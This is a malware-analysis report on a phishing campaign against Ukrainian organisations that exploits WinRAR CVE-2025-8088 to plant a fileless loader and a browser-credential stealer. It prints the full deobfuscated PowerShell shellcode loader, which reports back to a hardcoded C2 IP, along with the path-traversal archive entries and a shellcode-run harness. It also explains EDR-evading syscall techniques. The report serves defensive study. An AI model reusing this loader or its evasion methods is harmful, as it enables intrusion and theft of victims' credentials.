

# Beyond the Archive: CVE-2025-8088 Stealer Targeting Ukraine

# 0. Overview
This report details a targeted phishing campaign delivering an information stealer against Ukrainian entities. The malware is distributed via a password-protected RAR archive impersonating the Holosiivskyi District TCC, exploiting WinRAR CVE-2025-8088 (NTFS ADS path traversal) to silently drop payloads to C:\ProgramData and establish persistence via a Startup folder .lnk file, all without user-visible execution.

Once triggered, an obfuscated PowerShell loader decrypts and reflectively loads a shellcode payload using direct/indirect syscalls (Hell's Gate-style) and FNV-1a API hashing to evade EDR hooks. The final-stage stealer harvests browser credentials, cookies, and session data (Chrome, Edge, Opera, Firefox), along with documents, archives, and credential files (KeePass, OpenVPN, JKS) matching size/age/extension criteria. Stolen data is RC4-encrypted, staged, compressed into a ZIP archive, and exfiltrated over HTTPS to a hardcoded C2 server, with a self-cleanup routine erasing artifacts post-execution.



# 1. Initial Access via Phishing

The infection chain for this stealer relies on a classic, highly targeted phishing campaign. To bypass automated security gateways that scan for malicious attachments, the threat actors distribute the malware inside a password-protected archive, delivering the decryption key directly to the victim within the email body.



From: holosivsk-rtck@ukr[.]net
Victim: chernigivdonor@ukr[.]net


- Social Engineering Lure: The email body is written in Ukrainian and utilizes a highly sensitive military registration theme to create a sense of urgency.

- Impersonation: The message is signed by a "Senior Lieutenant Kosenko A.D.", falsely claiming to be an official communication from the Holosiivskyi District TCC and SP (Territorial Center for Recruitment and Social Support).

- The Hook: The email instructs the recipient to verify employee military records against the attached document, explicitly providing the password 25062026 to unlock the archive.

# 2. CVE Exploit

Once the unsuspecting victim enters the provided password and attempts to extract the archive, the WinRAR [CVE-2025-8088](https://nvd.nist.gov/vuln/detail/CVE-2025-8088) vulnerability is triggered. This exploit utilizes malicious NTFS file streams to establish an ambush, quietly executing the initial shellcode on the host machine.


Inside the password-protected archive, the attacker delivered two Winrar-exploited archive, they comes with the same payload, just different decoy pdf.





Abusing NTFS Streams and Path Traversal
Once the victim enters the password to decrypt the archive, the underlying mechanics of the [CVE-2025-8088](https://nvd.nist.gov/vuln/detail/CVE-2025-8088) exploit are set into motion. The attackers do not simply drop an executable next to a decoy document; instead, they weaponize the extraction process itself by exploiting how the archiver parses malformed file names and NTFS Alternate Data Streams (ADS).

By examining the extracted artifacts, we can observe the exact directory traversal and staging techniques used to quietly deploy the malware. The archive contains the following malformed entries tied to the decoy PDF:

```
1. Відомості з реєстру військовозобов'язаних про працівників 20260625-3994491-2.pdf:.._.._.._.._.._.._.._.._.._.._.._.._ProgramData_I54d
2. Відомості з реєстру військовозобов'язаних про працівників 20260625-3994491-2.pdf:.._.._.._.._.._.._.._.._.._.._.._.._ProgramData_X3Hk
3. Відомості з реєстру військовозобов'язаних про працівників 20260625-3994491-2.pdf:.._.._.._.._.._Roaming_Microsoft_Windows_Start Menu_Programs_Startup_dXd9PBI7I7RL9.lnk
```


This extraction sequence reveals a classic, yet highly effective, localized ambush utilizing two core techniques:

1. Stream Smuggling and Directory Traversal
The files use the decoy document (Відомості з реєстру...pdf) as an anchor. The colon is typically reserved for NTFS Alternate Data Streams, but in this crafted archive, it is abused in conjunction with path traversal sequences (.._.._). When the vulnerable archiver processes these entries, it fails to properly sanitize the paths. Instead of attaching a hidden data stream to the PDF in the current directory, it traverses up the directory tree to drop payloads in critical system locations.

2. Staging in ProgramData
The first two extracted streams write components to the ```C:\ProgramData\``` directory:
```
- ProgramData_I54d
- ProgramData_X3Hk
```

3. Immediate Persistence via LNK
The final extracted stream reveals the attacker's persistence mechanism. By traversing into the user's Roaming profile, the exploit writes a shortcut file directly into the Windows Startup folder:

```
...\Start Menu\Programs\Startup\dXd9PBI7I7RL9.lnk
```


Without execution, we can use this simple powershell script to dump the actual payload.

```powershell
$file = Get-ChildItem *.pdf
Get-Item $file.FullName -Stream * |
Where-Object { $_.Stream -ne ':$DATA' } |
ForEach-Object {
    $stream = $_.Stream
    $outfile = ($stream -replace '[<>:"/\\|?* ]','_') + ".bin"
    Write-Host "Extracting $stream"

    $content = Get-Content -LiteralPath $file.FullName -Stream $stream -Raw -Encoding Byte
    [System.IO.File]::WriteAllBytes((Join-Path $PWD $outfile), $content)
    Get-Item $outfile
}
```




# 3. Analyzing the first stage

## 3.1. dXd9PBI7I7RL9.lnk file
The ```dXd9PBI7I7RL9.lnk``` file simply run the command to execute the ```X3Hk``` file.




## 3.2. C:\ProgramData\X3Hk file

This is the obfuscated powershell script that are used to execute the shellcode in the ```I54d``` file



The malware uses the basic subtract encryption, with some obfuscation by changing the variable/function name, and some garbage functions


The Raw string-decryption function is ```goat_lush_retire_fragrance_squeal```



Once deobfuscated, it became:
```powershell
for($i = 0; $i -lt $PayloadSize; $i++) { 
    $PayloadData[$i] =((($PayloadData[$i] - $DecryptionKey) % 256) + 256) % 256 
};
```


___
After some deobfuscation, the script becomes:

```powershell
$unsafeNativeMethods =
   ([type]::GetType(
        [System.AppDomain]::CurrentDomain.GetAssemblies()
        | Where-Object {
            $_.GlobalAssemblyCache -and
            $_.Location.Split('\')[-1].Equals("System.dll")
        }
    )).GetType("Microsoft.Win32.UnsafeNativeMethods")

    
$getProcAddressMethod = $unsafeNativeMethods.GetMethod('GetProcAddress',[Type[]]@((New-Object System.Runtime.InteropServices.HandleRef).GetType(),[string]))
$GetModuleHandle = $unsafeNativeMethods.GetMethod('GetModuleHandle');


function Invoke-NativeCall {
    param(
        $Handle,
        $Value
    )

    $handleRef = New-Object System.Runtime.InteropServices.HandleRef(
       (New-Object IntPtr),
        $GetModuleHandle.Invoke($null, @($Handle))
    )

    return $getProcAddressMethod.Invoke(
        $null,
        @($handleRef, $Value)
    )
}
function New-DelegateType {
    param(
        [Type[]]$ParameterTypes,
        [Type]$ReturnType = [void]
    )

    
    $assemblyName = New-Object System.Reflection.AssemblyName("ReflectedDelegate")

    $assembly = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
        $assemblyName,
        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
    )

    
    $module = $assembly.DefineDynamicModule("InMemoryModule", $false)

    
    $typeBuilder = $module.DefineType(
        "MyDelegateType",
        "Class, Public, Sealed, AutoClass",
        [System.MulticastDelegate]
    )

    
    $typeBuilder.DefineConstructor(
        "RTSpecialName, HideBySig, Public",
        [System.Reflection.CallingConventions]::Standard,
        $null
    ).SetImplementationFlags("Runtime, Managed")

    
    $typeBuilder.DefineMethod(
        "Invoke",
        "Public, HideBySig, NewSlot, Virtual",
        $ReturnType,
        $ParameterTypes
    ).SetImplementationFlags("Runtime, Managed")

    return $typeBuilder.CreateType()
}


function Get-NativeDelegate {
    param(
        $Handle,
        $FunctionName,
        [Type[]]$ParameterTypes,
        [Type]$ReturnType = [void]
    )

    $functionPointer =
        Invoke-NativeCall $Handle $FunctionName

    $delegateType =
        New-DelegateType $ParameterTypes $ReturnType

    return [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
        $functionPointer,
        $delegateType
    )
}


$BufferPtr = @()
function New-NativeBuffer {
    param(
        [uint32]$Size,
        [object]$HandleOut,
        [int64]$InitialValue = 0
    )

    
    $ptr = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($Size)

    
    if($Size -eq 4) {
        [System.Runtime.InteropServices.Marshal]::WriteInt32($ptr, 0, $InitialValue)
    }
    elseif($Size -eq 8) {
        [System.Runtime.InteropServices.Marshal]::WriteInt64($ptr, 0, $InitialValue)
    }

    
    $HandleOut += $ptr

    return $ptr
}


$PayloadPath = 'I54d'
$DecryptionKey = 75
$EntryPointOffset = 0x17710
$PayloadSize = 0x113e00;
$PayloadData = [type]::GetType('System.IO.File')::ReadAllBytes('C:\ProgramData\' + $PayloadPath);


for($i = 0; $i -lt $PayloadSize; $i++) { 
    $PayloadData[$i] =((($PayloadData[$i] - $DecryptionKey) % 256) + 256) % 256 
};


$NtAllocateVirtualMemoryMethod = Get-NativeDelegate ntdll.dll NtAllocateVirtualMemory @([IntPtr],[IntPtr],[IntPtr],[IntPtr],[uint32],[uint32])([uint32])

$ZeroType = [type]::GetType('System.IntPtr')::Zero;

$AllocationBaseAddress = New-NativeBuffer 8 $BufferPtr $ZeroType;
$AllocatedSize = New-NativeBuffer 8 $BufferPtr $PayloadSize + 1


$NtStatus = $NtAllocateVirtualMemoryMethod.Invoke(
   (New-Object System.Diagnostics.Process).GetType()::GetCurrentProcess().Handle,
    $AllocationBaseAddress,
    0,
    $AllocatedSize,
    0x3000,
    4
);


$MarshalAllocatedAddress = [type]::GetType('System.Runtime.InteropServices.Marshal')::ReadInt64($AllocationBaseAddress,0);

[type]::GetType('System.Runtime.InteropServices.Marshal')::Copy($PayloadData,0,$MarshalAllocatedAddress,$PayloadSize);

$NtProtectVirtualMemoryMethod = Get-NativeDelegate ntdll.dll NtProtectVirtualMemory @([IntPtr],[IntPtr],[IntPtr],[uint32],[IntPtr])([uint32]);
$OldProtection = New-NativeBuffer 8 $BufferPtr;
$NtStatus_2 = $NtProtectVirtualMemoryMethod.Invoke(
    (New-Object System.Diagnostics.Process).GetType()::GetCurrentProcess().Handle,
    $AllocationBaseAddress,
    $AllocatedSize,
    64,
    $OldProtection
);
;
$NtCreateThreadExMethod = Get-NativeDelegate ntdll.dll NtCreateThreadEx @([IntPtr],[uint32],[IntPtr],[IntPtr],[IntPtr],[IntPtr],[uint32],[uint32],[uint32],[uint32],[IntPtr])([uint32])

$hThread = New-NativeBuffer 8 $BufferPtr;

# Create Thread with payload pointer as parameter
$NtStatus_CreateThread = $NtCreateThreadExMethod.Invoke(
    $hThread,
    2097151,
    [type]::GetType('System.IntPtr')::Zero,
    (New-Object System.Diagnostics.Process).GetType()::GetCurrentProcess().Handle,
    $MarshalAllocatedAddress + $EntryPointOffset,
    $MarshalAllocatedAddress,
    0,
    0,
    0,
    0,
    [type]::GetType('System.IntPtr')::Zero
);

$ThreadHandle = [type]::GetType('System.Runtime.InteropServices.Marshal')::ReadInt64($hThread,0);

$NtWaitForSingleObjectMethod = Get-NativeDelegate ntdll.dll NtWaitForSingleObject @([IntPtr],[byte],[IntPtr])([uint32]);
$NtStatus_Wait = $NtWaitForSingleObjectMethod.Invoke(
    $ThreadHandle,
    0,
    [type]::GetType('System.IntPtr')::Zero
);

$ThreadExitCode = New-NativeBuffer 4 $BufferPtr;
$GetExitCodeThreadMethod = Get-NativeDelegate kernel32.dll GetExitCodeThread @([IntPtr],[IntPtr])([bool]);
$GetResult = $GetExitCodeThreadMethod.Invoke(
    $ThreadHandle,
    $ThreadExitCode
);
$ThreadExitCodeResult = [type]::GetType('System.Runtime.InteropServices.Marshal')::ReadInt32($ThreadExitCode,0);

if($ThreadExitCodeResult -ne 0) {
  
    ([type]'System.Net.ServicePointManager')::ServerCertificateValidationCallback = { $true };
    $C2Server = https://136.0.141.237:8942/seqOhyMc/;
    $ShellcodeErrorMessage = @();
    $ShellcodeErrorMessage += [type]::GetType('System.BitConverter')::GetBytes($ThreadExitCodeResult)
    $ShellcodeErrorMessage += [type]::GetType('System.BitConverter')::GetBytes([type]::GetType('System.Runtime.InteropServices.Marshal')::ReadInt32([IntPtr]($MarshalAllocatedAddress + 68),0)) # 0x44: Error code
    $ShellcodeErrorMessage += [type]::GetType('System.BitConverter')::GetBytes([type]::GetType('System.Runtime.InteropServices.Marshal')::ReadInt32([IntPtr]($MarshalAllocatedAddress + 72),0)) # 0x48: Execution Result
    $ShellcodeErrorMessage += [type]::GetType('System.BitConverter')::GetBytes([type]::GetType('System.Runtime.InteropServices.Marshal')::ReadInt32([IntPtr]($MarshalAllocatedAddress + 76),0)) # 0x4C: Payload Stage

    $WebRequestMethod = [type]'System.Net.WebRequest';
    $hWebRequest = $WebRequestMethod::Create($C2Server)
    $hWebRequest.Method = POST
    $hWebRequest.ContentLength = $ShellcodeErrorMessage.Length;
    $hWebRequestStream = $hWebRequest.GetRequestStream()
    $hWebRequestStream.Write($ShellcodeErrorMessage,0,$ShellcodeErrorMessage.Length);
    $hWebRequestStream.Close();
}
;

$NtCloseMethod = Get-NativeDelegate ntdll.dll NtClose @([IntPtr])([uint32])
$NtStatus_close = $NtCloseMethod.Invoke($ThreadHandle);

foreach($BufferEntry in $BufferPtr) {;
    [type]::GetType('System.Runtime.InteropServices.Marshal')::FreeHGlobal($BufferEntry);
}

```


This PowerShell script acts as a highly stealthy, fileless loader designed to decrypt and execute the primary payload in memory. By relying on direct system calls and dynamic API resolution, the loader attempts to bypass standard endpoint detection and response (EDR) user-land hooking.

- **Dynamic API Resolution**: The script avoids using the standard Add-Type cmdlet, which would leave compiled C# artifacts on the disk. Instead, it utilizes ```System.Reflection.Emit``` to dynamically define and construct execution delegates purely in memory. It successfully locates ```Microsoft.Win32.UnsafeNativeMethods``` within the globally loaded ```System.dll``` assembly to acquire pointers for ```GetModuleHandle``` and ```GetProcAddress```.
- **Custom Payload Decryption**: The loader targets the previously staged file located at ```C:\ProgramData\I54d```. It reads the entire 0x113e00-byte file into an array and decrypts it byte-by-byte. The decryption routine is a straightforward arithmetic operation that subtracts a hardcoded key of 75 from each byte and applies a modulo 256 operation to wrap the values.
- **Direct System Calls (Self-Injection)***: The script executes the payload within its own PowerShell process space. It uses the ```NtAllocateVirtualMemory``` system call to carve out memory. After copying the decrypted payload into this allocated space, it calls ```NtProtectVirtualMemory``` with a protection constant of 64 (representing ```PAGE_EXECUTE_READWRITE```). Finally, it detonates the payload using ```NtCreateThreadEx```, pointing the thread's execution directly to the payload's entry point at offset 0x17710.
- **Error Telemetry and C2 Callback**: The loader actively monitors the execution thread by calling ```NtWaitForSingleObject``` and retrieves the result with ```GetExitCodeThread```. If the payload fails (indicated by a non-zero exit code), the script disables SSL certificate validation and executes a POST request to a hardcoded command and control (C2) server at [https[:]//136[.]0[.]141[.]237:8942/seqOhyMc/]
- Upon analyzing the shellcode, we know that the there offset are Error code, Execution result, and payload stage



## 3.3. The final C:\ProgramData\I54d payload
Base on the upper deobfuscated script:

Filename: C:\ProgramData\I54d
Size: 0x113e00
Shellcode entrypoint: 0x17710

In the upper ```NtCreateThreadEx``` the malware use it own allocated shellcode address as parameter
```powershell
# Create Thread with payload pointer as parameter
$NtStatus_CreateThread = $NtCreateThreadExMethod.Invoke(
    $hThread,
    2097151,
    [type]::GetType('System.IntPtr')::Zero,
    (New-Object System.Diagnostics.Process).GetType()::GetCurrentProcess().Handle,
    $MarshalAllocatedAddress + $EntryPointOffset,
    $MarshalAllocatedAddress,
    0,
    0,
    0,
    0,
    [type]::GetType('System.IntPtr')::Zero
);
```

Therefore, if you want to debug this shellcode, you would need something like this

```c
    if (ReadEntireFile("shellcode.bin", &buffer, &size)){

        VirtualProtect(buffer, size, PAGE_EXECUTE_READWRITE, &OldProtect);
        HANDLE hThread = CreateThread(
            NULL,
            0,
            (LPTHREAD_START_ROUTINE)(buffer + 0x17710),
            (LPVOID)(buffer),   // <--- Need this parameter
            0,
            NULL
        );
        WaitForSingleObject(hThread, INFINITE);
```




### 3.3.1. PEB Walking and FNV-1a Hashing

To evade static analysis and conceal its dependencies from traditional import table inspection, the shellcode dynamically resolves required modules like kernel32.dll using API hashing.

The hashing algorithm used in this sample is: FNV-1a



***These hash values are available in HashDB***




The first two API be resolved are: ```LoadLibraryA``` and ```GetProcAddress```





### 3.3.2. Resolve syscall stub

To bypass user-land Endpoint Detection and Response (EDR) hooks placed on ntdll.dll functions, the malware employs a direct system call evasion technique reminiscent of the Hell's Gate and Halo's Gate frameworks.

The fn_resolve_syscall_stub function dynamically resolves ntdll.dll and locates critical APIs—such as ```NtAllocateVirtualMemory```, ```NtCreateThreadEx```, and ```NtProtectVirtualMemory```—using the previously analyzed FNV-1a hashing method. However, instead of calling these exported functions directly, the malware parses their in-memory instruction stubs searching for the ```0xB8``` opcode (```mov eax, imm32```). Instead of checking only the current byte, it also examines the previous three bytes (offset-3 to offset) to account for the scan position potentially overshooting the instruction boundary. Once the opcode is found, the function records its location and continues processing to extract the syscall information. This technique is commonly used by direct-syscall frameworks (e.g., ```Hell's Gate```/```Halo's Gate``` variants) to recover syscall numbers directly from ntdll and avoid relying on potentially hooked exported functions.



Step-by-step
- Scan the Nt* syscall stub for the 0xB8 (mov eax, syscall_number) opcode.
- Checks the previous 3 bytes to tolerate scan misalignment
- Records the syscall stub location for later syscall number extraction.
Similar to Hell's gate technique: https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c 



List of APIs be resolved this way:

```
1. NtClose
2. NtCreateFile
3. NtCreateThreadEx
4. NtDeleteFile
5. NtFlushInstructionCache
6. NtFreeVirtualMemory
7. NtGetNextProcess
8. NtProtectVirtualMemory
9. NtQueryAttributesFile
10. NtQueryDirectoryFileEx
11. NtQueryInformationFile
12. NtQueryInformationProcess
13. NtReadFile
14. NtReadVirtualMemory
15. NtTerminateProcess
16. NtWaitForSingleObject
17. NtWriteFile
18. NtWriteVirtualMemory
```

Base on the result, and error handling from the EntryPoint




We know the value in these offset
- 0x44: The error code
- 0x4C: The payload stage
- 0x48: Execution result

Therefore we can define the context struct for the shellcode:

```C
struct PAYLOAD_HEADER
{
    DWORD ImportTableOffset;  
    DWORD ImportTableSize;
    DWORD IATOffset;          
    DWORD IATSize;
    DWORD BaseRelocOffset;    
    DWORD BaseRelocSize;
    DWORD PreferredImageBase; 
    DWORD Reserved;           
};


struct  MW_CONTEXT{
    PAYLOAD_HEADER PayloadHeader;
    QWORD SectionBase;
    QWORD AllocatedAddressSize_0x11A000;
    unsigned int PayloadOffset_0x113E_at0x30;
    unsigned int AllocationSize_0x11A000;
    unsigned int DllMainEntryPoint_0x8F834;
    DWORD OffsetOfSectionTable;
    DWORD NumberOfSection_0x6;
    DWORD ErrorCode_0x44;
    DWORD ExecutionResult_0x48;
    DWORD PayloadStage_at0x4c;
};
```


Back to the powershell script:


=> These 3 parameter will be sent to the attacker server, the server grab the malware
- Error code, to see where did the malware fail to execute
- Payload stage, to see where the malware executed
- Execution result, to see the result of the function, or API

## 3.3.3. Reflective PE Loading and Payload Detonation

- First, we need to understand the function the malware use to convert raw offset to image RVA

Please read [this blog](https://tech-zealots.com/malware-analysis/understanding-concepts-of-va-rva-and-offset/) for the full analysis

```C
Given a raw file offset
        │
        ▼
Search the PE section table
        │
        ▼
Find the section that contains the file offset
        │
        ▼
RVA = VirtualAddress + (FileOffset - PointerToRawData)
        │
        ▼
Return the RVA
```

By implementing its own loader, the malware completely bypasses the Windows OS loader (ntdll.dll!LdrLoadDll), evading traditional image load callbacks and module enumeration tools.
- **Memory Allocation and RWX Staging**: The loader first calls ```NtAllocateVirtualMemory``` to reserve a large block of memory (0x11A000 bytes) in the current process (-1LL). It immediately alters the memory protection to PAGE_EXECUTE_READWRITE (RWX) using ```NtProtectVirtualMemory```. While RWX memory is a common indicator of compromise (IoC) flagged by EDRs, the malware relies on its direct syscall implementation to bypass user-mode hooks during this allocation.
- **Manual Image Mapping**: Instead of loading the executable from disk, the shellcode manually parses the decrypted payload's PE headers. It allocates a secondary heap structure for section management and explicitly copies the payload's sections into the newly allocated RWX region.
- **IAT and Relocation Resolution**: To ensure the payload can function at its new, randomized base address, the loader dynamically rebuilds the Import Address Table. It then processes the Base Relocation Table, patching absolute memory references throughout the mapped image.
- **Instruction Cache Flushing**: Before transferring execution flow to the newly mapped code, the loader calls ```NtFlushInstructionCache```. This is a critical step in reflective injection; it forces the CPU to discard any stale, prefetched data in the instruction cache and fetch the newly written malware instructions from memory, preventing execution crashes.
- **Detonation and Telemetry**: The entry point is calculated by adding the relative virtual address ```0x8F834``` to the allocated base address. The loader casts this address as a function pointer and calls it, passing ```DLL_PROCESS_ATTACH``` to detonate the main stealer logic.




The ```fn_copy_section_to_heap``` function serves as the core memory mapping loop within the malware's custom PE loader. Its primary responsibility is to replicate the behavior of the Windows OS loader by correctly placing each section of the executable (such as ```.text```, ```.data```, or ```.rdata```) into the newly allocated RWX memory space.

By iterating through the PE file's Section Table (incrementing by 40 bytes, the exact size of an IMAGE_SECTION_HEADER), the function extracts three critical values for each section: the ```PointerToRawData``` (where the section lives in the dropped file), the ```SizeOfRawData``` (how big the section is), and the ```VirtualAddress``` (the Relative Virtual Address or RVA where the section expects to reside in memory). It then utilizes a standard memcpy operation to copy the raw bytes from the file buffer directly into the allocated memory region at the correct VirtualAddress offset. Concurrently, it updates a custom SectionInfo tracking array, ensuring the loader maintains a record of the mapped sections for subsequent Import Address Table (IAT) resolution and base relocations.



The function operates by locating the PE file's Import Directory and iterating through the array of IMAGE_IMPORT_DESCRIPTOR structures. For each dependent module:
1. **Module Loading**: It extracts the DLL name via DllNameRva and invokes the passed ```LoadLibraryA``` pointer to ensure the required library is mapped into the process space.
2. **Thunk Parsing**: It walks the OriginalFirstThunk array (the Import Name Table/INT) to process every required API.
3. **Ordinal vs. Name Resolution**: The loader checks the highest bit of the thunk value (ThunkValue >= 0) to determine how the API is imported. If the high bit is set, it extracts the ordinal number using a bitwise mask (0x7FFFFFFFFFFFFFFFLL). Otherwise, it calculates the address of the IMAGE_IMPORT_BY_NAME structure, bypassing the 2-byte hint to extract the API name string.
4. **IAT Patching**: It uses ```GetProcAddress``` to retrieve the live, absolute memory address of the target API and writes this resolved pointer directly into the corresponding IATEntryRVA within the payload's newly allocated RWX memory block.




Next, the loader processes the PE Base Relocation Directory of the manually mapped payload. The function converts the relocation directory's raw file offset to a raw image pointer, calculates the relocation delta between the payload's preferred image base and its actual mapped address, then iterates through each IMAGE_BASE_RELOCATION block. For each relocation entry, it applies the appropriate adjustment for supported relocation types (IMAGE_REL_BASED_DIR64 and IMAGE_REL_BASED_HIGHLOW), skips IMAGE_REL_BASED_ABSOLUTE padding entries, records the relocation types encountered, and reports an error if an unsupported relocation type is found.



Lastly, after resolving imports and applying relocations, the loader computes the runtime address of the payload's DllMain by adding its entry-point RVA to the mapped image base. It then flushes the CPU instruction cache to ensure any modified code is visible to the processor, updates the payload execution stage, and invokes DllMain with the standard DLL_PROCESS_ATTACH reason, transferring execution to the manually mapped payload as if it had been loaded by the Windows PE loader.





The payload stores the entry point as an RVA (Relative Virtual Address) rather than a raw file offset. To locate the corresponding code in the raw payload, the loader converts the RVA to a file offset using the PE section table. Since the entry point resides in the first section (VirtualAddress = 0x1000, PointerToRawData = 0x400), the calculation is:
```
RawOffset = PointerToRawData + (RVA - VirtualAddress)
          = 0x400 + (0x8F834 - 0x1000)
          = 0x8EC34
```


## 3.3.4. Obfuscation

From the DllMain, **every** function contains a significant amount of control-flow obfuscation designed to hinder static analysis.




There are 11 function created for this obfuscating purpose, each one contains different parameter, we can write a custom script to trace back then nop all function call and its parameter.

After deobfuscation, the malware became pretty straightforward




## 3.3.5. String decryption algorithm

The malware implements its own RC4 algorithm, with custom sbox
There are two RC4 version in the malware, one for normal string utf-8, one for wide string utf-16, same algorithm - different sbox




After identified the algorithm, we can implement our own decryption script to decrypt all encrypted string








⚠️ When you extract the encrypted string for decryption, remember that the malware manual mapped the no-header PE payload into its memory, so the offset from the disassembly is pointed in the wrong actual encrypted bytes, for example, this:


First, take a look at section table (extracted from the no-header PE payload)
```
.text
VirtualAddress: 0x1000
SizeOfRawData: 0xAF800
PointerToRawData: 0x400


.rdata
VirtualAddress: 0xB1000
SizeOfRawData: 0x2D800
PointerToRawData: 0xAFC00


.data
VirtualAddress: 0xDF000
SizeOfRawData: 0x2D600
PointerToRawData: 0xDD400


.pdata
VirtualAddress: 0x10F000
SizeOfRawData: 0x8200
PointerToRawData: 0x10AA00


.fptable
VirtualAddress: 0x118000
SizeOfRawData: 0x200
PointerToRawData: 0x112C00


.reloc
VirtualAddress: 0x119000
SizeOfRawData: 0x1000
PointerToRawData: 0x112E00
```


| Section    |  RVA Start |    RVA End | Raw Offset Start | Raw Offset End |
| ---------- | ---------: | ---------: | ---------------: | -------------: |
| `.text`    |   `0x1000` |  `0xB0800` |          `0x400` |      `0xAFC00` |
| `.rdata`   |  `0xB1000` |  `0xDE800` |        `0xAFC00` |      `0xDD400` |
| `.data`    |  `0xDF000` | `0x10C600` |        `0xDD400` |     `0x10AA00` |
| `.pdata`   | `0x10F000` | `0x117200` |       `0x10AA00` |     `0x112C00` |
| `.fptable` | `0x118000` | `0x118200` |       `0x112C00` |     `0x112E00` |
| `.reloc`   | `0x119000` | `0x11A000` |       `0x112E00` |     `0x113E00` |


Remember how we caculate DLLMain address (belong in .text section)
```
MappedDllMainAddress = PointerToRawData + (RVA - VirtualAddress)
          = 0x400 + (0x8F834 - 0x1000)
          = 0x8EC34
```

***-> The allocated code itself has been relocated by +0xC00.***
| Section  |       VA |    RVA End |      Raw | Shift (VA - Raw) |
| -------- | -------: | ---------: | -------: | ---------------: |
| .text    |   0x1000 | 0xB0800 |    0x400 |        **0xC00** |
| .rdata   |  0xB1000 | 0xDE800 |  0xAFC00 |        **0x800** |
| .data    |  0xDF000 | 0x10C600 |  0xDD400 |       **0x1000** |
| .pdata   | 0x10F000 | 0x117200 | 0x10AA00 |       **0x3a00** |
| .fptable | 0x118000 | 0x118200 | 0x112C00 |       **0x4800** |
| .reloc   | 0x119000 | 0x11A000 | 0x112E00 |       **0x5600** |


<!-- RawOffset = PointerToRawData + (RVA - VirtualAddress) -->
Those two address: 0xB1166, and 0xB117E belongs in ```.rdata``` section (0xB1000 < 0xB1166 < 0xDE800), we need to caculate their actual offset when mapped into memory

RawOffset = PointerToRawData_rdata + (RVA - VirtualAddress_rdata) + 0xC00
RawOffset = 0xAFC00 + RVA - 0xB1000 + 0xC00
RawOffset = RVA - 0x800

So in our extraction script, we need to subtract 0x800 from the source address to get the actual encrypted bytes address.





## 3.3.5. Communicate with C2


The supplied payload is first copied into a newly allocated buffer, after which a 10-byte packet trailer is appended. A 2-byte packet type, and a 4-byte packet identifier, allowing the server to distinguish packet boundaries and message types.

Before transmission, the entire packet is encrypted using an RC4 stream cipher with a hardcoded key. The C2 URL is stored in encrypted form within the binary and is decrypted at runtime, revealing the endpoint: https[:]//136[.]0[.]141[.]237:8942/G8mGR7vXmD/




The malware then initializes a libcurl session and performs an HTTPS POST request with the encrypted packet as the request body. SSL certificate validation (CURLOPT_SSL_VERIFYPEER) and hostname verification (CURLOPT_SSL_VERIFYHOST) are explicitly disabled, allowing communication with self-signed or otherwise untrusted certificates. A delay of approximately 3.9 seconds is introduced before the request is sent.

We can use this [repo](https://github.com/Maktm/FLIRTDB/tree/master/libcurl/windows) for some libcurl's signature.




If the connection to the C2 server fails (CURLE_COULDNT_CONNECT), the malware attempts to determine whether the host has Internet connectivity by sending a request to http://1.1.1.1. If this connectivity test also fails, it assumes the system is offline, cleans up its log files, and immediately terminates the process. Otherwise, it concludes that the Internet is available but the C2 is unreachable, triggering its self-removal routine to reduce forensic artifacts and avoid remaining active on the compromised host.



Here is some signal code that the malware use to communicate with the C2 before any main action
```C
enum MW_C2_CODE : unsigned __int64
{
    SIGNAL_PACKET_EMPTY_POST_DATA = 0x9C59DF30LL,

    START_STEALER_PARENT_LOOP = 60,
    END_STEALER_PARENT_LOOP = 188,

    START_EXTRACT_BROWSER_DATA = 131,
    END_EXTRACT_BROWSER_DATA = 207,

    START_LOCAL_FILE_STEALER = 217,
    END_LOCAL_FILE_STEALER = 133
}
```









## 3.3.6. Stealer

First the malware generate some paths base on enviroment string



| PATH                                                        | Purpose                               |
|-------------------------------------------------------------|---------------------------------------|
| C:\User\[Username]\bZsaxmZvial0zhH4n                        | Root directory for stolen data        |
| C:\User\[Username]\tKyvEZBrnNtrVhA.zip                      | Zip file name for stolen data archive |
| C:\User\[Username]\bZsaxmZvial0zhH4n\\[Username]             | Root directory for logging files      |
| C:\Users\[Username]\AppData\Local\Temp\B1WTZSa_qAz4yTQGVg6i | Batch script for self removal         |
| C:\User\[Username]\bZsaxmZvial0zhH4n\\[Username]\jMT7f1YMTwe | Error log file                        |
| C:\Users\[Username]\AppData\Local\Temp\logs.txt             | Log file for all action               |

### 3.3.6.1. Browser's data stealer

Target browser: Firefox, Opera, Edge, Chrome



#### 3.3.6.1.1. Firefox
**Firefox**: The malware discover every Firefox user profile and preparing each profile for credential extraction. 

```
Locate Firefox Profiles directory
        │
        ▼
Create malware Firefox staging folder
        │
        ▼
Enumerate every Firefox profile
        │
        ▼
For each profile
        │
        ├── Copy logins.json
        ├── Copy key3.db
        ├── Copy key4.db
        └── Copy cookies.sqlite
        │
        ▼
Encrypt every copied file with RC4
        │
        ▼
Proceed to next profile
```


- It first resolves the victim's Firefox profile directory under ```%APPDATA%```.
- Creates a corresponding destination directory within the malware's working folder. 
- Enumerates all valid Firefox profile directories while skipping the special ```"."``` and ```".."``` entries. 
- For each discovered profile, it invokes sqlite database stealer to collect credential-related artifacts—including ```logins.json```, ```key3.db```, ```key4.db```, and ```cookies.sqlite``` by copying them into the staging directory and encrypting the copied data with the malware's RC4 routine. 
- After each profile is processed, the function restores its reusable path buffers before continuing to the next profile, enabling the malware to systematically harvest credentials and authentication data from all Firefox profiles present on the system.






#### 3.3.6.1.2. Chrome, Edge and Opera

The Chromium-base credential theft routine is divided into multiple stages that collectively recover the browser's AES master key and prepare profile-specific information for extracting encrypted browser credentials. 
Rather than immediately reading the browser databases, the malware first processes the Local State configuration file to obtain the DPAPI-protected master key and enumerate the available browser profiles. 
The recovered information is then passed to a second-stage payload that executes within a suspended browser process to decrypt browser secrets.

Workflow:

```
fn_extract_browser_cookie()
        │
        ▼
Locate and copy Local State
        │
        ▼
RC4 encrypt copied Local State
        │
        ▼
Read Local State
        │
        ▼
Decrypt RC4 copy back into memory
        │
        ▼
Extract:
    • encrypted_key
    • app_bound_encrypted_key
    • profiles_order
        │
        ▼
Recover DPAPI master key
(CryptUnprotectData)
        │
        ▼
Save RC4-encrypted Key10.txt
        │
        ▼
Launch suspended browser
        │
        ▼
Inject second-stage payload
        │
        ▼
Second stage decrypts browser databases
```
